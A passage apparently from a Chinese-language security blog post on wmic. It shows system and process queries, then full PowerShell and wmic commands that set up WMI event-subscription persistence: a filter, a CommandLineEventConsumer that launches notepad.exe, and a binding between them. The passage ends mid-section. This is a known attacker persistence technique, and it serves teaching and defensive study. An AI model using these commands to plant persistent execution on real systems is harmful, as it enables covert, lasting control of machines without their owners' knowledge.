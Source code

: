 `wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_ComputerSystem GET NumberOfLogicalProcessors,TotalPhysicalMemory /FORMAT:list`

返回结果如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-8-16/3-2.png)

### 2、查看当前进程

`wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_Process GET Caption /FORMAT:list`



## 0x05 WMI Persistence
Powershell完整的实现代码如下：

```
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

接下来分步介绍对应wmic调用的过程

### 1、Create an __EventFilter instance

`wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`

### 2、Create an __EventConsumer instance

`wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"`


### 3、Create a __FilterToConsumerBinding instance

`wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""`


### 4、List the __EventFilter and __EventConsumer instances

**Filters：**
